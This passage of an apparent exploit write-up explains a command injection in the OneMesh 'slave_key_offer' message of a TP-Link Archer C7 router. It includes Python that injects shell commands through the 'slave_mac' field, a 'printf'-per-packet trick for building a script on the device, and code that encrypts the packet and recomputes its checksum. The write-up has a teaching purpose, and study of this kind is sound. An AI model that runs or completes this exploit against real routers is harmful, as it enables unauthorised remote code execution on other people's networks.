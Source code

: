 ```json
{"method":"slave_key_offer","data":{"group_id":"8735fc23-b166-4f27-9acc-ec7cb15b98fb","ip":"192.168.0.125","slave_mac":"CONTROL THIS", "slave_private_account":"DEADBEEF", "slave_private_password":"CAFEBABE", "want_to_join":false, "model":"Archer C7","operation_mode":"Superman","product_type":"spiderman",}}
```

Next the JSON message with those fields would look a little like this

```python
def injectCommand(c):
    payload = '{"method":"slave_key_offer","data":{"group_id":"8735fc23-b166-4f27-9acc-ec7cb15b98fc","ip":"192.168.0.125","slave_mac":"XXXXXXXXXXXXXXXXXXXXXX", "slave_private_account":"DEADBEEF", "slave_private_password":"CAFEBABE", "want_to_join":false, "model":"Archer C7","operation_mode":"Superman","product_type":"spiderman"}}'
    payload = payload.split("XXXXXXXXXXXXXXXXXXXXXX")[0] + "';printf '" + c + "'>>p;'" + payload.split("XXXXXXXXXXXXXXXXXXXXXX")[1]
    return payload
```

## Command Injection

Here the `slave_mac` field is used to print one character into a file `p`. There is a limit of 17 characters that we can place in this field. The way the command injection works here is as follows.

```shell
lua -e 'require("luci.controller.admin.onemesh").sync_wifi_specified({mac="<SLAVE_MAC>"})'
```

For the command injection to work, we need to terminate the Lua code string with single quotes. Two semicolon is then used to separate the commands like this.

```shell
lua -e 'require("luci.controller.admin.onemesh").sync_wifi_specified({mac=" ';INJECT HERE;' "})'
```

Here we have already used 4 characters resulting with 13 left. The strategy used here is to append one character into a file, then send multiple packets to construct a complete script before executing the resulting file. We can do that with a shell command like `printf` and redirect it to a single character filename:

```shell
# printf 'x'>p is just 12 bytes so it is within reach
lua -e 'require("luci.controller.admin.onemesh").sync_wifi_specified({mac=" ';printf 'x'>p;' "})'
```

After setting it up in JSON format, it is time to encrypt with AES with the hardcoded IV and key.

Now append it to the payload header and update the length in the header as well. The checksum will be calculated with a stand-in magic value before replacing it with the newly calculated checksum.

```python
packet+= AESEncrypt(payload)
temp = packet[:4]
temp += p16(len(pad(payload)) , endian="big") # update the length of the padded payload
packet = temp + packet[6:]
calculatedChecksum = calcChecksum(packet)
result = packet[:12]
result += p32(calculatedChecksum , endian="big") # replaces the magic checksum with the calculated checksum
result += packet[16:]
```
